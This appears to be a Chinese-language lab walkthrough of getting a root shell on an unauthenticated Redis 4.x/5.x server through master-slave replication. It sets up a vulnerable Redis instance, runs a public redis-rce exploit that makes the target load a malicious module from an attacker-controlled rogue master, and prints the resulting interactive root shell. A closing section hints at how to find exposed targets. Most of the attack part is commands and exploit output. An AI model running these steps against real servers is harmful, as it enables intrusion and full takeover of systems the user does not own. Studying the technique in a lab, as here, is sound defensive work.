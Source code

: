 # Redis未授权通过主从复制GETSHELL


## 0x01 环境搭建

靶机kali，ip地址192.168.1.16，安装redis服务命令。  

wget http://download.redis.io/releases/redis-5.0.0.tar.gz  
tar xzf redis-5.0.0.tar.gz  
cd redis-5.0.0  
make  


编译好然后修改redis.conf文件，把127.0.0.1 改成 0.0.0.0  启动服务。  


./redis-server /root/redis-5.0.0/redis.conf  

![1](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/1.jpg)

## 0x02 漏洞利用



攻击机Ubuntu，ip地址192.168.1.107，下载exp脚本，然后输入参数开始。



 git close https://github.com/Ridter/redis-rce
 cd redis-rce
 greekn@greekn:~/redis-rce$ python3 redis-rce.py -r 192.168.1.16 -L 192.168.1.107 -f exp_lin.so
 
 █▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
 █  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
 █▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
 █  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
   █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   

[*] Connecting to  192.168.1.16:6379...
[*] Sending SLAVEOF command to server
[+] Accepted connection from 192.168.1.16:6379
[*] Setting filename
[+] Accepted connection from 192.168.1.16:6379
[*] Start listening on 192.168.1.107:21000
[*] Tring to run payload
[+] Accepted connection from 192.168.1.16:38875
[*] Closing rogue server...

[+] What do u want ? [i]nteractive shell or [r]everse shell: i
[+] Interactive shell open , use "exit" to exit...
$ whoami
root
$ 

![2](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/2.jpg)

## 0x03 脆弱目标寻找

漏洞关键词redis 默认端口6379，影响版本 4.x/5.x

![3](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/3.jpg)

参考链接 https://paper.seebug.org/975/

![4](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/4.jpg)



